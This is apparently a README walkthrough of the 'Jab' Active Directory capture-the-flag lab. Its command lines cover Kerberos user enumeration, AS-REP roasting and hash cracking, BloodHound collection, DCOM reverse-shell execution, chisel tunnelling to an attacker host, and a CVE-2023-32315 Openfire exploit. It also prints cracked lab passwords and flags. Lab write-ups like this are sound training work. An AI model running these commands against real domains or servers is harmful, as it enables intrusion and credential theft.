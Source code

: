 # 🧠 Jab - Active Directory Exploitation Walkthrough

**Jab** is an Active Directory lab environment that involves:

- Kerberos user enumeration and AS-REP Roasting
- XMPP-based information gathering using Openfire and Pidgin
- Lateral movement through DCOM-based privilege escalation
- RCE via CVE-2023-32315 on Openfire admin
- Full Domain Admin compromise

---

## 🚩 Highlights

| Phase              | Tools & Techniques                                                                 |
|--------------------|-------------------------------------------------------------------------------------|
| User Enum          | `kerbrute`, `GetNPUsers`, AS-REP roasting                                          |
| Password Cracking  | `hashcat` with mode 18200                                                          |
| XMPP Discovery     | `Pidgin` XMPP client to uncover user info and chat rooms                           |
| SMB Enum           | `smbmap` with valid credentials for share access                                   |
| AD Enumeration     | `bloodhound-python`, `Neo4j`, AD Object analysis                                   |
| Lateral Movement   | `impacket-dcomexec` for executing payloads via DCOM                                |
| Pivot              | `chisel` for port forwarding to Openfire admin interface                           |
| Final Exploit      | `CVE-2023-32315` on Openfire to gain SYSTEM shell via plugin upload                |

---

## 📌 Target Overview

- **IP Address:** `10.10.11.4`
- **Domain:** `jab.htb`
- **DC Hostname:** `dc01.jab.htb`
- **Key Services:** Kerberos, LDAP, SMB, Openfire (XMPP)

---

## 🔍 Enumeration

### Nmap Scan

```bash
nmap -sC -sV -oA nmap 10.10.11.4
Discovered Ports:

88, 389, 636, 445 – Kerberos, LDAP, SMB

5222, 5269, 7070, 7443, 7777 – XMPP (Openfire)

Update /etc/hosts:

Copy
Edit
10.10.11.4 jab.htb dc01.jab.htb
🔐 Kerberos + AS-REP Roasting
User Enumeration
bash
Copy
Edit
kerbrute userenum --dc dc01.jab.htb -d jab.htb usernames.txt -o kerbrute.txt
AS-REP Dumping
bash
Copy
Edit
GetNPUsers jab.htb/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
Cracking Hashes
bash
Copy
Edit
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
Found:

yaml
Copy
Edit
jmontgomery : Midnight_121
💬 XMPP Chat Discovery via Pidgin
Logged into Openfire using jmontgomery

Found chat messages with new creds:

yaml
Copy
Edit
svc_openfire : !@#$%^&*(1qazxsw)
🧰 BloodHound & AD Privilege Path
Dump AD Objects
bash
Copy
Edit
bloodhound-python -u svc_openfire -p '!@#$%^&*(1qazxsw)' -d jab.htb -dc dc01.jab.htb -c all -ns 10.10.11.4
Upload results to BloodHound

Discovered svc_openfire has DCOM execution rights on DC

🎯 DCOM Remote Code Execution
Execute Reverse Shell
bash
Copy
Edit
impacket-dcomexec 'jab.htb/svc_openfire:!@#$%^&*(1qazxsw)@dc01.jab.htb' '<powershell payload>'
Netcat Listener
bash
Copy
Edit
rlwrap nc -nlvp 6658
✅ User Flag: 58b27f9faaec3dfdb2a94dad6a1e2175

🔀 Port Forwarding with Chisel
Setup Reverse Tunnel
Attacker:

bash
Copy
Edit
chisel server -p 9999 --reverse
Victim (DC):

bash
Copy
Edit
chisel client <YourIP>:9999 R:9090:127.0.0.1:9090
Access Openfire admin: http://127.0.0.1:9090

💣 Openfire RCE (CVE-2023-32315)
Setup Exploit
bash
Copy
Edit
git clone https://github.com/miko550/CVE-2023-32315.git
cd CVE-2023-32315
pip3 install -r requirements.txt
Upload malicious plugin through Openfire Admin

Trigger payload for SYSTEM shell

Final Reverse Shell
bash
Copy
Edit
rlwrap nc -nlvp 4444
✅ Root Flag: 8f826f76eb871e0566058e6580760e8e

🛠️ Tools Used
nmap, kerbrute, hashcat, impacket

bloodhound-python, Neo4j, smbmap, Pidgin

chisel, rlwrap, CVE-2023-32315 exploit

✅ Summary
Initial foothold via AS-REP roasting

Credential chaining through XMPP and SMB

BloodHound revealed DCOM attack path

Gained remote shell on Domain Controller

Privilege escalation via internal Openfire RCE

🧑‍💻 Author
Farhanahmad Quraishi
